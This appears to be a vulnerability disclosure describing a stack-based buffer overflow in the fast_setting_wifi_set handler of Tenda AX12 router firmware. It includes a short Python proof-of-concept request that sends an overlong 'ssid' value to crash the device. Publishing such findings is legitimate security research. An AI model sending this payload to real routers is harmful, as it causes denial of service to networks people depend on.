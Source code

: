# Tenda Router AX12 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AX12_V22.03.01.21. (The latest version is [AX12_V22.03.01.21](https://www.tenda.com.cn/download/detail-3237.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into `v2`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AX12/304/vlun2.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
2023-02-26: Report to CVE;
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
